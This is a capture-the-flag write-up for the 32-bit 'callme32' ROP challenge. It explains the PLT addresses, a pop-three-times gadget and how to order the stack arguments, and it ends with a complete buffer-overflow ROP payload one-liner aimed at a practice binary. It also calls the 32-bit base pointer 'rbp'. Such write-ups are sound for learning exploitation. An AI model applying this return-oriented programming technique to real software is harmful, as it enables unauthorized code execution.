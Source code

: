 # callme32
According to the descrption, we need to call the functions callme_one, callme_two, callme_three with three arguments in specific order.

Hint also tells that we need to call the functions through plt(procedure linkage table).

Check the security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, the we are able to use ret2function or rop.

Use ghidra to track the assembly code, and we will find that the program does not call functions callme_one, callme_two, callme_three. 

These functions are included from shared library, and their function address is stored in the plt table. We can find their function address in plt.
```
...
Breakpoint 3 at 0x80484f0 (callme_one@plt)
Breakpoint 4 at 0x80484e0 (callme_three@plt)
Breakpoint 5 at 0x8048550 (callme_two@plt)
...
```
We obtain three function address, before calling them we need to set the arguments properly.

Hint has told us that these functions need three parameters, which are 0xdeadbeef, 0xcafebabe, and 0xd00df00d.

x86 use stack to pass function arguments, therefore, we need to push three arguments into stack, then the function call will be:
```
0x80484f0 (callme_one@plt) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x8048550 (callme_two@plt) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x80484e0 (callme_three@plt) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
```
However, if we use this format directly, we will get segmentation fault. 

This is because we do not pop the stack correctly. For a function call, we need to push and pop the function arguments by ourselves, and patter upward we do not pop argumnents out the stack, then the next return address will be wrong.

Therefore, we need to pop the argument out for every function call:
```
0x80484f0 (callme_one@plt) + (pop arguments) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x8048550 (callme_two@plt) + (pop arguments) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x80484e0 (callme_three@plt) + (pop arguments) + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
```
We check three functions in libcallme32.so using ghidra, we find that function callme_one, callme_two, callme_three obtaining the argument by:
```
...
int               Stack[0x4]:4   param_1                                 XREF[1]:     00010768(R)  
int               Stack[0x8]:4   param_2                                 XREF[1]:     00010775(R)  
int               Stack[0xc]:4   param_3                                 XREF[1]:     00010782(R)  
...
```
This means that the function actually get the arguments from sp+4, sp+8, sp+12, where sp+0 we can use it to do pop operation.

We find the proper gadget using rop command in gdb-peda, since we have three arguments, we need a pop three times gadget, or three one time pop gadget.  
```
...
0x080487f9 : pop esi ; pop edi ; pop ebp ; ret
...
```
We find a proper gadget, then the payload will be:
```
0x80484f0 (callme_one@plt) + 0x080487f9  + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x8048550 (callme_two@plt) + 0x080487f9  + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
0x80484e0 (callme_three@plt) + 0x080487f9 + 0xdeadbeef + 0xcafebabe + 0xd00df00d 
```
Now, we can build whole payload.

First, same as problems before, the overflow buffer is 40 bytes, and rbp register is 4 bytes.
```
'A' * 40 + 'A' * 4
```
We jump to the function, and after function finished, jump to gadget address to pop the arguments. 
```
'\xf0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\x50\x85\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\xe0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0'
```
Finally, the whole payload will be:
```
python2 -c "print 'A'*44 + '\xf0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\x50\x85\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0' + '\xe0\x84\x04\x08' + '\xf9\x87\x04\x08' + '\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0'" | ./callme32
```
We obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
